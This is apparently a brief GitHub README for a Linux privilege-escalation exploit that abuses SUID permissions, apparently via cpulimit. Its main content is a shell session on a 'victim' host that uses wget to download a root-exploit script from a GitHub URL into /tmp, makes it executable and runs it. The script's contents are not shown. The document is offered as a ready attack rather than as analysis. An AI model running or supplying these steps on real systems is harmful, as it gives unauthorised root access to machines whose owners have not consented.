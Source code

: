 # Linux Privilege Escalation `Abusing SUID Permissions `


```cmd
user@victim:~$ cd /tmp
user@victim:/tmp$ wget https://raw.githubusercontent.com/d4t4s3c/CPULimit-Linux-Privilege-Escalation/master/suid_root.sh
user@victim:/tmp$ chmod +x suid_root.sh 
user@victim:/tmp$ ./suid_root.sh 
```

**Screenshot**

![](/screenshot.png)
